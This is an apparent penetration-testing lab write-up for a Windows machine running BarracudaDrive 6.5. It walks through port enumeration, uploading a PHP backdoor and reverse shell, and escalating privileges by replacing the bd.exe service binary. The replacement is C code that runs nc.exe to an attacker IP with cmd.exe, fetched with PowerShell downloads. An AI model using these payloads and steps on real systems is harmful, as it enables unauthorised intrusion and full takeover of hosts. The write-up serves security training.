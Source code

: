 # Network Enumeration

```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8000/tcp  open  http-alt
30021/tcp open  unknown
33033/tcp open  unknown
44330/tcp open  unknown
45332/tcp open  unknown
45443/tcp open  unknown
```

<img src="../Images/image-20230819134408510.png" alt="image-20230819134408510" style="zoom:80%;" />

<img src="../Images/image-20230819134420964.png" alt="image-20230819134420964" style="zoom:80%;" />

<img src="../Images/image-20230819134434709.png" alt="image-20230819134434709" style="zoom:80%;" />



# Port enumeration

## Port 5040

Can't get any information from port 5040.

<img src="../Images/image-20230819135054119.png" alt="image-20230819135054119" style="zoom:80%;" />

## Port 7680

Also port 7680 didn't get any response, HTTP is not useful.

<img src="../Images/image-20230819135134909.png" alt="image-20230819135134909" style="zoom:80%;" />

## Port 8000

In port 8000, that let me to set an administrator account .

<img src="../Images/image-20230819135320630.png" alt="image-20230819135320630" style="zoom:80%;" />

Also can get the information from page.

1. App name is `Wizard` ?
2. `BarracudaDrive` provide the service.

## Port 30021

The port 30021 running `FTP` services, can running as anonymous.

<img src="../Images/image-20230819135542270.png" alt="image-20230819135542270" style="zoom:80%;" />

Download `README.md` I can know this app running base Ruby.

<img src="../Images/image-20230819135827452.png" alt="image-20230819135827452" style="zoom:80%;" />

Cat `config.ru` can get the application name is `Rails`.

<img src="../Images/image-20230819140031127.png" alt="image-20230819140031127" style="zoom:80%;" />

## Port 33033

Port 33033 shows a website with team.

<img src="../Images/image-20230819140401985.png" alt="image-20230819140401985" style="zoom:80%;" />

Can get 6 "guys" name and email. Also get the title `Sugoid` and `UserproMedjed`. 

Create 3 txt documents, store the `username`, `firstname`, `lastname`, and `email` address. Try to brute force with `Burp Suite`

<img src="../Images/image-20230819141846608.png" alt="image-20230819141846608" style="zoom:80%;" />

But no useful creds.

## Port 44330

<img src="../Images/image-20230819142224050.png" alt="image-20230819142224050" style="zoom:80%;" />

Port 44330 didn't response.



## Port 45332

Port 45332 is a quiz app.

<img src="../Images/image-20230819152413684.png" alt="image-20230819152413684" style="zoom:80%;" />

## Port 45443

Port 45443 is also a quiz app.

<img src="../Images/image-20230819142255418.png" alt="image-20230819142255418" style="zoom:80%;" />

But it will not return anything while you choose the right answer.

<img src="../Images/image-20230819142349119.png" alt="image-20230819142349119" style="zoom:80%;" />



# Web Enumeration

## Port 8000

<img src="../Images/image-20230819142440264.png" alt="image-20230819142440264" style="zoom:80%;" />

set the username and password `aaron:aaron123`

<img src="../Images/image-20230819142521116.png" alt="image-20230819142521116" style="zoom:80%;" />

Then administrator account set successful. Check about, the version of application is `BarracudaDrive 6.5`.

Use the `Web-File-Server` can directly access the `C:\`

<img src="../Images/image-20230819144216821.png" alt="image-20230819144216821" style="zoom:80%;" />

<img src="../Images/image-20230819144513316.png" alt="image-20230819144513316" style="zoom:80%;" />

Then can find there are 2 disks on `/fs`. Then check the help document, we can add `c` to link to access the `C:\`

<img src="../Images/image-20230819144633454.png" alt="image-20230819144633454" style="zoom:80%;" />

But can't access `D:\`.

Check the `C:\xampp\htdocs\`, the index.html is quiz App, also the `phpinfo.php` in here. Check on port 45443 or 45332 if `phpinfo` can access.

<img src="../Images/image-20230819152610691.png" alt="image-20230819152610691" style="zoom:80%;" />

![image-20230819152617378](../Images/image-20230819152617378.png)

Then upload a `simple-backdoor.php` into this folder. 

<img src="../Images/image-20230819152800892.png" alt="image-20230819152800892" style="zoom:80%;" />

Access this `simple-backdoor.php` file, it's work.

<img src="../Images/image-20230819152733724.png" alt="image-20230819152733724" style="zoom:80%;" />

Upload `reverse_shell_windows.php` into this folder, change the `$tmpdir`.

<img src="../Images/image-20230819152927669.png" alt="image-20230819152927669" style="zoom:80%;" />

Then visit this `php` file. Get reverse shell.

<img src="../Images/image-20230819153108053.png" alt="image-20230819153108053" style="zoom:80%;" />

# PE

## Information Collection

```powershell
PS history file: C:\Users\Jerren\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



Find autorun applications.

<img src="../Images/image-20230819155005347.png" alt="image-20230819155005347" style="zoom:80%;" />

Search `barracudadrive v6.5 privilege escalation` in google, there is a way to PE with `barracudadrive`.

<img src="../Images/image-20230819153150490.png" alt="image-20230819153150490" style="zoom:80%;" />

Try it all, refer->[barracudadrive v6.5 privilege escalation](https://www.exploit-db.com/exploits/48789)

## `barracudadrive v6.5` privilege escalation

### Check permission

<img src="../Images/image-20230819153356639.png" alt="image-20230819153356639" style="zoom:80%;" />

### Check file application permission

<img src="../Images/image-20230819153441214.png" alt="image-20230819153441214" style="zoom:80%;" />

###  Check if `sc` can doing operation with `bd`

<img src="../Images/image-20230819153534394.png" alt="image-20230819153534394" style="zoom:80%;" />

### Add reverse shell code.

```c
#include <windows.h>
#include <winbase.h>

int main(void){
     system("C:\\users\\jerren\\nc.exe 192.168.45.229 5040 -e cmd.exe");
     WinExec("C:\\bd\\bd.service.exe",0);
    return 0;
    } 

```

#### Compile Code

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/MedJed]
└─$ i686-w64-mingw32-gcc reverse.c -l ws2_32 -o bd.exe

```



Transfer to Target machine, replace the `bd.exe`

```powershell
PS C:\Users\Jerren> iwr -uri http://192.168.45.229/nc/nc.exe -o nc.exe
PS C:\Users\Jerren> iwr -uri http://192.168.45.229/bd.exe -o bd.exe
PS C:\bd> mv bd.exe bd.exe.bak
PS C:\bd> cp c:\users\Jerren\bd.exe .
PS C:\bd> dir
    Directory: C:\bd
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                                                                   
-a----         8/19/2023   2:55 AM          99868 bd.exe                                                               
-a----         4/26/2013   5:55 PM        1661648 bd.exe.bak     


PS C:\bd> shutdown /r      
```

Then waiting for machine restart. Get administrator shell.

<img src="../Images/image-20230819160138192.png" alt="image-20230819160138192" style="zoom:80%;" />

